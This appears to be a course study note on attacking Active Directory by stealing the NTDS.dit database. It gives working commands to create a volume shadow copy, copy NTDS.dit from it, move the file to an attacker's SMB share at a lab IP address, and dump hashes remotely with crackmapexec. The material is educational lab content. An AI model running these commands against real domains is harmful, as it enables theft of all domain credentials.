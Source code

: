 # Attacking Active Directory NTDS.dit

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/5695c495-1b02-471a-9aac-cc2a54a8155d)

Once a Windows system is joined to a domain, it will no longer default to _referencing the SAM database to validate logon requests_
Keep in mind that we can also study NTDS attacks by keeping track of this [technique](https://attack.mitre.org/techniques/T1003/003/).

# Capturing NTDS.dit
The `.dit` stands for directory information tree. This is the primary database file associated with AD and stores all domain **usernames**, password **hashes**, and other critical schema information.
`NT Directory Services (NTDS)` is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at %systemroot$/ntds on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).

To make a copy of the `NTDS.dit` file, we need `local admin` (Administrators group) or `Domain Admin` (Domain Admins group) (or equivalent) rights.<br>
Checking local group membership from powershell:
```bash
net localgroup
```
Checking User Account Privileges including Domain
```bash
net user username
```
This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

# Creating Shadow Copy of C:
From powershell:
```bash
vssadmin CREATE SHADOW /For=C:
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/675095d8-1f51-41d8-bb56-4baa179f2d3e)

## Copying NTDS.dit from the VSS
```bash
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
To transfer file into linux smb server:
```bash
PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```
## Capturing ntds from linux
```bash
crackmapexec smb 10.129.201.57 -u username -p password --ntds
```
